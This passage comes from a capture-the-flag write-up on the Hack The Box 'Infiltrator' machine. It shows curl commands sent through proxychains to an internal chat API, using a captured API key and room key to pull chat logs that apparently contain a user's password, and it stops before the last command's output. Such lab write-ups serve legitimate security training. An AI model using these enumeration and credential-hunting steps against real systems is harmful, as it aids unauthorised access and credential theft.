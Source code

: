The “Chiefs\_Marketing\_chat” has two users (and likely O.Martinez’s password). Requesting that room specifically doesn’t provide any additional information:

```

oxdf@hacky$ proxychains -q curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" localhost:14125/api/chatrooms/Chiefs_Marketing_chat -s | jq .
{
  "row": {
    "room": "Chiefs_Marketing_chat",
    "roomusers": "A.walker|0,O.martinez|0"
  },
  "success": true
}

```

There’s an API to get logs from a room, but it requires the “Chat Room key”, which I have it from the database file [above](/2025/06/14/htb-infiltrator.html#db-enumeration).

#### Pull Chat Logs

In addition to the `roomkey`, the API also requires a `fromdate` and `todate`. Without them, the error message makes it look like the `roomkey` is bad:

```

oxdf@hacky$ proxychains -q curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" 'localhost:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com'
{"success":false,"message":"logs chatroom does not exists!"}

```

But on adding them (picking an arbitrarily long time range):

```

oxdf@hacky$ proxychains -q curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" 'localhost:14125/api/chatrooms/logs?roomkey=20240220014618@conference.com&fromdate=2010/01/01&todate=2024/09/01'
```